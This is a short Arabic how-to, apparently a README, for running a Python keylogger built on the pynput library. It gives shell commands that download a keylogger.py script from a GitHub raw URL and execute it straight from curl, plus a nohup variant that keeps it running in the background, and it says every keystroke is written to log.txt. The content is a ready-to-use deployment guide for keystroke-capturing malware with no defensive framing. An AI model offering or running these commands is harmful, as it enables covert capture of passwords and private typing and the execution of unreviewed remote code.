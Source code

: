 إذا لم يكن Python مثبتًا، يمكنك تثبيته باستخدام:

sudo apt update

sudo apt install python3


بعد ذلك، تحتاج إلى تثبيت مكتبة pynput التي سنستخدمها لتسجيل ضغطات المفاتيح:
pip3 install pynput

لتشغيل الـkeylogger، استخدم الأمر التالي:

python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/python-scripts/main/keylogger.py)


لتشغيله في الخلفية دون إغلاق الجلسة، يمكنك استخدام أدوات مثل nohup:

nohup python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/python-scripts/main/keylogger.py) &


سيبدأ البرنامج الآن في تسجيل كل ضغطة على لوحة المفاتيح في ملف log.txt 🎉

